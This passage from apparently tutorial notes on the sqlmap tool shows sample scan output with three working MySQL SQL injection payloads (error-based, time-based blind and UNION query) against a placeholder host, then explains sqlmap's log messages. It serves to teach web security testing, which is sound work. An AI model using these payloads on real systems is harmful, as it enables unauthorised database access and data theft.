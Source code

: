 ```bash
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 7744 FROM(SELECT COUNT(*),CONCAT(0x7170706a71,(SELECT (ELT(7744=7744,1))),0x71707a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 3669 FROM (SELECT(SLEEP(5)))TIxJ)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170706a71,0x554d766a4d694850596b754f6f716250584a6d53485a52474a7979436647576e766a595374436e78,0x71707a7871)-- -
---
[22:26:56] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL >= 5.0
[22:26:57] [INFO] fetched data logged to text files under '/home/user/.sqlmap/output/www.example.com'

[*] ending @ 22:26:57 /2020-09-09/
```
>[!Tip] Tip: Breakdown
The option '``-u``' is for the target URL, while the switch '``--batch``' is used for skipping any required user-input, by automatically choosing using the default option.
## SQLMap Output Description
* At the end of the previous section, the sqlmap output showed us a lot of info during its scan. 
* This data is usually crucial to understand, as it guides us through the automated SQL injection process. 
* This shows us exactly what kind of vulnerabilities SQLMap is exploiting, which helps us report what type of injection the web application has. 
* This can also become handy if we wanted to manually exploit the web application once SQLMap determines the type of injection and vulnerable parameter.
### Log Messages Description
The following are some of the most common messages.
#### URL content is stable
**Log Message:** 
`"target URL content is stable"`

* This means that there are no major changes between responses in case of continuous identical requests. 
* Important from the **automation** POV since, in the event of stable responses, it is easier to spot differences caused by the potential SQLi attempts. 
* While stability is important, SQLMap has advanced mechanisms to automatically remove the potential "noise" that could come from potentially unstable targets.
#### Parameter appears to be dynamic
**Log Message**: 
`"heuristic (basic) test shows that GET parameter '``id``' might be injectable (possible DBMS: 'MySQL')"`
